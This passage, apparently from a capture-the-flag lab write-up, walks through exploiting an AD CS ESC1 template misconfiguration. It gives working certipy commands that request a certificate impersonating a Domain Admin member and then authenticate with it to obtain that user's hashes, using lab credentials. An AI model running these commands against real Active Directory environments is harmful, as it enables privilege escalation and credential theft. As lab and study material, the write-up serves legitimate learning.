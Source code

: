 The certificate is vulnerable to ESC1. With that any low-privileged user can request a certificate that allows them to authenticate as a privileged user (e.g., a Domain Admin), due to a misconfigured or overly permissive AD CS template.

I first searched for a user which is in the domain admin group and can login with a simple shell.

```
$ Get-ADGroupMember -Identity "Domain Admins" -Recursive

distinguishedName : CN=Administrator,CN=Users,DC=thm,DC=local
name              : Administrator
objectClass       : user
objectGUID        : 07822fd3-6443-4bf6-bb1e-341283a7318c
SamAccountName    : Administrator
SID               : S-1-5-21-1966530601-3185510712-10604624-500

distinguishedName : CN=BERNARD_CARNEY,OU=AZR,OU=Tier 1,DC=thm,DC=local
name              : BERNARD_CARNEY
objectClass       : user
objectGUID        : a29b0bc2-9fe0-4e8e-a905-ec4f77fe3a39
SamAccountName    : BERNARD_CARNEY
SID               : S-1-5-21-1966530601-3185510712-10604624-1248

distinguishedName : CN=BRADLEY_ORTIZ,OU=FSR,OU=Tier 1,DC=thm,DC=local
name              : BRADLEY_ORTIZ
objectClass       : user
objectGUID        : 319bff06-5900-44cd-b9b6-a3fc5c157ef0
SamAccountName    : BRADLEY_ORTIZ
SID               : S-1-5-21-1966530601-3185510712-10604624-1358

distinguishedName : CN=BEVERLY_FARRELL,OU=AZR,OU=Tier 1,DC=thm,DC=local
name              : BEVERLY_FARRELL
objectClass       : user
objectGUID        : 88672f30-9c2f-4485-ba69-5d375b581d55
SamAccountName    : BEVERLY_FARRELL
SID               : S-1-5-21-1966530601-3185510712-10604624-1588
```

Then I tired getting a certificate of the first two members of the group but that didn't work. The user which worked was `BRADLEY_ORTIZ`, so I generated a certificate request.

```
certipy req -u 'SUSANNA_MCKNIGHT' -p 'CHANGEME2023!' -ca 'thm-LABYRINTH-CA' -template ServerAuth -upn 'BRADLEY_ORTIZ@THM.LOCAL' -dc-ip 10.10.214.56
```

Then I authenticated, which returns the hashes of the user:

```
certipy auth -pfx bradley_ortiz.pfx -dc-ip 10.10.214.56
```
And finally I used the hashes to get a shell.

**Note:** You need to add the domain name to your host file for that: `echo "10.10.214.56 thm.local" | sudo tee -a /etc/hosts`
